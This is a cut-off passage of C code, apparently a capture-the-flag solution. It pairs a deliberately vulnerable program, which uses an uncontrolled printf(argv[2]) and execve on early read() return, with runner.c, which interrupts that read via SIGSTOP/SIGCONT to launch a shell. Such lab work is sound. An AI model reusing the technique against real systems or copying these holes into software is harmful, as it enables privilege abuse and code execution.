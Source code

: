 ```python

    if (nb_bytes < BUF_SIZE) {
      printf("muahah... read() terminated early :)\n");
      puts("Ok, well done");
      
      printf(argv[2]);
      char* arg[2] = {argv[2], NULL};
      printf("%s\n",argv[2]);
      execve(argv[2], arg, NULL);
    }

    close(fd);
    return 0;
}

```


```python
//runner.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h> 
#include <stdlib.h>
#include <errno.h>  
#include <sys/wait.h>

  
int main(int argc, char* argv[]){
     setbuf(stdout, NULL);

   pid_t  pid;
   int ret = 1;
   int status;
   pid = fork();
  
   if (pid == -1){
      printf("can't fork, error occured\n");
      exit(EXIT_FAILURE);
   }
   else if (pid == 0){
      char * argv_list[] = {"/dev/zero","./bin/sh",NULL};
  
   
      execv("./proof",argv_list);
      exit(0);
   }
   else{
      printf("Parent Of parent process, pid = %u\n",getppid());
      printf("parent process, pid = %u\n",getpid()); 
      printf("child: %u\n",pid); 
      printf("sleeping\n");
      printf("%d\n",atoi(argv[1]));
      usleep(atoi(argv[1])*100);

      printf("sending SIGSTOP\n");
      kill(pid, SIGSTOP);
      printf("sending SIGCONT\n");
      kill(pid, SIGCONT);
  
        if (waitpid(pid, &status, 0) > 0) {
              
            if (WIFEXITED(status) && !WEXITSTATUS(status)) 
```